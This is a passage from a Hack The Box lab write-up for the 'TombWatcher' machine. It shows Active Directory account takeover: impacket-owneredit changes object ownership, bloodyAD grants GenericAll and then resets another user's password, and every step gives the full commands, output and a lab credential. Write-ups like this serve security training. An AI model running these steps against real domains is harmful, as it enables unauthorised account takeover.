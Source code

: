 ![Pasted image 20250922215942.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250922215942.png)

We can change `John` password's.

First we use `impacket-owneredit` to make `SAM` owner of `JOHN`:

```bash
└─$ impacket-owneredit -action write -target 'john' -new-owner 'sam' 'tombwatcher.htb/sam':'Hacker123!' -dc-ip 10.10.11.72
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!
```

Now we can change his password with `bloodyAD`

First add `GenericAll`:

```bash
─$ bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'Hacker123!' add genericAll john sam
[+] sam has now GenericAll on john
```

Now change his password:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb'  -u 'SAM' -p 'Hacker123!' set password john 'Hacker123!'
[+] Password changed successfully! 
```
## Evil-WinRM
